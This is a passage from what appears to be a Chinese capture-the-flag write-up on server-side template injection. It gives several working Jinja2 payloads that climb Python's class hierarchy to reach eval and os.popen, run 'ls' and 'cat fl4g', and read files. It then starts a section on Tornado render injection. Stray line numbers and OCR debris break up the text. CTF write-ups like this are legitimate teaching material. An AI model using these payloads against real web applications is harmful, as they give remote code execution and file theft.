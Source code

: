 9
10
11


找到fl4g ,于是读取文件

ls 改成cat fl4g，就可以读取flag了

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}         //遍历基类 找到eval函数
    {% if 'eval' in b.keys() %}    //找到了
      {{ b['eval']('__import__("os").popen("cat fl4g").read()') }} 
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
1
2
3
4
5
6
7
8
9
10
11


或者构造pyload

{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}

或者

{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
1
2
3
4
5
爆出fl4g, 然后读取

{{[].__class__.__base__.__subclasses__()[40]('fl4g').read()}}

或者

{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()}}
1
2
3
4
5
3.easytornado
原理
tornado render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页，如果用户对render内容可控，不仅可以注入XSS代码，而且还可以通过{undefined{}}进行传递变量和执行简单的表达式。
是一个类似模板的东西，可以使用不同的参数来访问网页
